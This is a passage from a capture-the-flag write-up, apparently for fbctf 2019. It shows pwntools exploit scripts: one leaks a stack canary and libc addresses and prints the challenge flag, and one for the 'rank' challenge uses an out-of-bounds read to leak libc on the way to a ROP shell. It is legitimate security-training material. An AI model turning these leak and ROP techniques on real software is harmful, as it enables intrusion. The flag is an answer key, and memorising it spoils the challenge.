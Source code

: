 ```python
print('gadget', hex(gadget))
print('canary', hex(canary))
print('base', hex(base))
print('libc', hex(libc))

get_nounce(gadget);

r.interactive()
```
flag: `fb{One_byte_aT_a_time}` 

### rank

Out-of-bound and ROP get the shell.

```python

#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = 'challenges.fbctf.com'
port = 1339

binary = "./r4nk"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def rank(t,rr):
  r.recvuntil("> ")
  r.sendline("2")
  r.recvuntil("> ")
  r.sendline(str(t))
  r.recvuntil("> ")
  r.sendline(str(rr))

def show(start,end):
  pass
  r.recvuntil(start)
  data = r.recvuntil(end)[:-len(end)]
  return data

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

if __name__ == '__main__':
  rank(0,0x11)
  r.recvuntil("> ")
  r.sendline("1"+"\x00"*7 + p64(0x000602030))
  r.recvuntil("0. ")
  libc = u64(r.recv(6).ljust(8,"\x00")) - 0x110070
  print("libc = {}".format(hex(libc)))
```
